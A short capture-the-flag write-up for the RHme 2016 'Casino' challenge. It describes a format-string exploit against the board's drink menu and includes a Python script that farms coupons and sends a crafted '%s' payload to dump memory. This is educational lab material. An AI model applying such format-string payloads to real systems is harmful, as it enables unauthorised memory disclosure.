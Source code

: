 # rhme-2016 write-up Casino

<a name="casino"></a>
## Casino (Exploit - 150 pts)
:> String format exploit

first you need free coupons by playing with the Spin [1]<br>
note: you have to repeat this a lot...<br>

Then, select the drink menu.<br>
You'll be asked to select a drink, this menu is only available with free coupons.<br>
This input is printed (if you entered aaa => aaa is displayed).<br>
I tried %s %s and got memory dump !!<br>

Then we tried many address and..Kabooooom ("\x17\x61 %s" as input works good)<br>
note: 0x6117 is for the fun (0x900 max)
``` python
from rhme_serial import *

s = rhme_serial()
tickets = 0
while not tickets:
    trash = s.xfer("4\n")
    trash = s.xfer("1\n")
    trash = s.xfer("S\n")
    trash = s.xfer("\r\n")
    if int(trash.split("left: ")[1][0]):
        tickets = 1
trash = s.xfer("3\n")
print s.xfer("\x17\x61 %s\n")
s.close()
```
